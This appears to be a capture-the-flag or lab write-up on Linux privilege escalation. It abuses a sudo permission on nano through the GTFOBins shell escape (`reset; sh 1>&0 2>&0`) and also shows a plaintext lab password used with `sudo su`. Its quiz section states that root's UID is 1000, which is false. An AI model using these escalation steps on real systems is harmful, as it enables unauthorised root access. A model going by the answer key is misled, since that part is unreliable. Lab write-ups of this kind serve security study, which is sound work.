



We examine the privilege of user john, focusing specifically on his sudo privileges. 
To do so, run `sudo -l` to list the commands that can be executed using sudo



The image below is basically an info of what the details of `sudo -l`



To further leverage nano to aid us become root, we follow the steps as highlighted by [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo)

The sequence is as follows

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

And we are root



Alternatively, we can use the password since we have john's password

```bash
sudo su

#password : SuperSecurePass123
```


---

## Q/A

1. How many functions can be exploited with the "nano" binary based on GTFObins?

```
3
```

2. What is the UID of the user root?

```
1000
```